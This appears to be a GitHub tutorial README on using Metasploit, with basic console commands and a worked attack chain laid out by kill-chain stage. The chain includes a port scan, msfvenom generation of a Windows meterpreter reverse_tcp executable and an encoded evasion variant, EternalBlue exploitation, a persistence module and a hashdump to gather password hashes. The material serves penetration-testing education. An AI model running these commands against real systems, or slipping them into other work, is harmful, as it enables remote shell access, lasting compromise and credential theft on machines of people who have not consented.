 ## Workflow:
1. To start Metasploit shell: `msfconsole`

2. A shell will be open: `msf6` along with all available Modules.

3. Search a module to use `search type:keywork`
- to navigate to modules `back`

4. To interact with a module `info 23, use 23 or use auxiliary/scanner/portscan/tcp `

5. Once selected `auxiliary(scanner/portscan/tcp)`
In Case of `Exploit` Module, we can set a payload too.
- To check available payloads for current Exploit Module `show payload`
- Select a payload `set payload_name or Number`

6. Check Options `show options` or full info with `info`

7. Set the Parameters Lhost/Rhost/Ports etc `set Lhost x.x.x.x`

8. Run the module `run` or `exploit`

## Note: TO SAVE the Output:
```
spool /path/to/output_file.txt
run
spool off
```

---
---

# Practical Example Workflow:
## 1. Reconnaissance:
```
Load auxiliary module: use auxiliary/scanner/portscan/tcp
Set RHOSTS: set RHOSTS 192.168.1.100
Run the scan: run
```

## 2. Weaponization:
```
Generate payload: msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=4444 -f exe -o shell.exe
```

## 3. Delivery:
```
Load exploit module: use exploit/windows/smb/ms17_010_eternalblue
Set payload: set payload windows/meterpreter/reverse_tcp
Set RHOST: set RHOST 192.168.1.100
Run the exploit: run
```

## 4. Exploitation:
```
Meterpreter session opened (assuming successful exploitation).
```

## 5. Installation:
```
Load post-exploitation module: use post/windows/manage/persistence
Set session: set SESSION 1
Run the module: run
```

## 6. Command and Control (C2):
```
Encode payload: msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=4444 -e x86/shikata_ga_nai -f exe -o encoded_shell.exe
```

## 7. Actions on Objectives:
```
Load post-exploitation module: use post/windows/gather/hashdump
Set session: set SESSION 1
Run the module: run
```

---
---

## Cheatsheet:
![image](https://github.com/IOxCyber/CyberEssentials/assets/40174034/7835180f-7295-4337-8f81-8bb23c35f14c)
